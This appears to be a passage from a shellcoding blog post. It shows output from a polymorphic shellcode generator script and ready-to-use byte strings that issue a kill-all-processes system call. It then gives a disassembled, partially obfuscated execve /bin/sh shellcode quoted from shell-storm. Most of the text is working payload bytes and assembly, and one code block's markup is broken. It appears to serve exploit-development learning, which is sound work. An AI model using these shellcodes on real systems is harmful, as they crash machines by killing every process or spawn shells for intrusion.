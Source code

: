 ### Some shellcodes

Here it is some shellcodes created using the aforementioned script.

{%highlight sh%}
% ./kill_it_me_softly.py -s
Shellcode:  \x31\xdb\x31\xc9\x31\xc0\xb0\x09\xb1\x25\x4b\xcd\x80
Length:  13
% ./kill_it_me_softly.py -s
Shellcode:  \x31\xdb\x31\xc0\x31\xc9\xb1\x25\xb0\x09\x4b\xcd\x80
Length:  13
% ./kill_it_me_softly.py -n
Shellcode:  \x31\xc9\x31\xc0\x31\xdb\xb0\x09\x4b\x90\xb1\x25\xcd\x80
Length:  14
{%endhighlight%}
% ./kill_it_me_softly.py -n
Shellcode:  \x31\xc9\x31\xc0\x31\xdb\xb0\x09\xb1\x25\x4b\xcd\x80
Length:  13
% ./kill_it_me_softly.py -N
Shellcode:  \x31\xdb\x31\xc0\x31\xc9\xb0\x09\xb1\x25\x4b\x4a\xcd\x80
Length:  14
% ./kill_it_me_softly.py -N
Shellcode:  \x31\xc9\x31\xdb\x31\xc0\x4b\xb1\x25\x90\x4a\xb0\x09\xcd\x80
Length:  15
% ./kill_it_me_softly.py -N
Shellcode:  \x31\xc9\x31\xdb\x31\xc0\xb0\x09\x4b\xb1\x25\xcd\x80
Length:  13

## Exec me a shell...

### The original shellcode

The original shellcode it can be found here:
[http://shell-storm.org/shellcode/files/shellcode-851.php](http://shell-storm.org/shellcode/files/shellcode-851.php).

It is a 30 bytes shellcode for a partially obfuscated execve() call.

{%highlight asm%}

00000000  31C9              xor ecx,ecx
00000002  F7E9              imul ecx
00000004  51                push ecx
00000005  040B              add al,0xb
00000007  EB08              jmp short 0x11
00000009  5E                pop esi
0000000A  87E6              xchg esp,esi
0000000C  99                cdq
0000000D  87DC              xchg ebx,esp
0000000F  CD80              int 0x80
00000011  E8F3FFFFFF        call dword 0x9
00000016  2F                das
00000017  62696E            bound ebp,[ecx+0x6e]
0000001A  2F                das
0000001B  2F                das
0000001C  7368              jnc 0x86
{%endhighlight%}
